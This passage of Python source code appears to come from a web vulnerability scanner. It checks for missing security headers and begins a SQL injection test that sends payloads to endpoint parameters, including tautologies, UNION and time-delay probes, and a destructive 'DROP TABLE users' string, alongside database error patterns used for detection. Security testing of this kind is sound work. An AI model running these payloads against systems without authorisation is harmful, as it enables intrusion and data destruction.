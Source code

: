 ```python
                print(f"  Frameworks: {', '.join(detected_frameworks)}")
            
            # Check for common vulnerabilities in headers
            security_headers = [
                'X-Frame-Options', 'X-XSS-Protection', 'X-Content-Type-Options',
                'Strict-Transport-Security', 'Content-Security-Policy'
            ]
            
            missing_headers = [header for header in security_headers 
                             if header not in headers]
            if missing_headers:
                self.vulnerabilities.append(f"Missing security headers: {', '.join(missing_headers)}")
                print(f"  [-] Missing security headers: {', '.join(missing_headers)}")
            
        except Exception as e:
            print(f"  [-] Error during fingerprinting: {e}")
    
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        print("\n[+] Testing SQL injection...")
        
        # SQL injection payloads
        sql_payloads = [
            "'",
            "' OR '1'='1",
            "' OR 1=1--",
            "'; WAITFOR DELAY '00:00:05'--",
            "' AND (SELECT COUNT(*) FROM information_schema.tables)>0--",
            "' UNION SELECT null,null,null--",
            "admin'--",
            "' OR SLEEP(5)--",
            "\"; DROP TABLE users;--"
        ]
        
        # Error-based detection patterns
        error_patterns = [
            'mysql_fetch', 'mysql_num_rows', 'mysql_error',
            'ora-01756', 'ora-00921', 'oracle error',
            'microsoft ole db', 'odbc microsoft access',
            'sqlserver jdbc driver', 'sqlite_master',
            'postgresql query failed', 'psql error',
            'syntax error', 'quoted string not properly terminated'
        ]
        
        vulnerable_endpoints = []
        
        # Test URL parameters
        for endpoint in list(self.endpoints)[:5]:  # Limit for demo
            parsed_url = urlparse(endpoint)
            if parsed_url.query:
                params = parse_qs(parsed_url.query)
                
                for param_name in params:
                    for payload in sql_payloads[:3]:  # Test first 3 payloads
                        test_params = params.copy()
                        test_params[param_name] = [payload]
                        
                        try:
                            response = self.session.get(
                                f"{parsed_url.scheme}://{parsed_url.netloc}{parsed_url.path}",
                                params=test_params,
                                timeout=10
```